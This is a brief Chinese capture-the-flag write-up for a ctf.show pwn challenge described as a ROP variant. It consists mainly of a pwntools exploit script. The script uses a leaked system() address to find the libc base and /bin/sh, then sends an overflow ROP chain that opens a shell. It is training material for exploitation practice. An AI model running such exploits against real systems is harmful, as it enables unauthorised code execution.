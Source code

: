 # 挑战简介
ROP变种

# 思路
ROP变种，其实是开始就给了你一个system函数的地址，有了这个地址，我们可以得到什么？  
- base基址
- libc的版本
- 以及通过偏移量推算出各函数的地址

还是ROP  
```
from pwn import *
from LibcSearcher import *
import base64
context(arch="amd64", log_level="debug")

p = remote("pwn.challenge.ctf.show",28262)
elf = ELF('D:\edge 下载\pwn')

offset = 0x80 + 0x8

ret = 0x1b5a8

pop_rdi = 0x2146f

p.recvuntil('O.o\n')

sys_addr = int(p.recv(14),16)

libc = LibcSearcher('system', sys_addr)

base = sys_addr - libc.dump('system')

bin_sh_addr = base + libc.dump('str_bin_sh')

print("system:",hex(sys_addr))
print("binsh:",hex(bin_sh_addr))

ret = base + ret

rdi = base + pop_rdi

p.send(b'a' * offset + p64(ret) + p64(rdi) + p64(bin_sh_addr) + p64(sys_addr))

p.interactive()
```
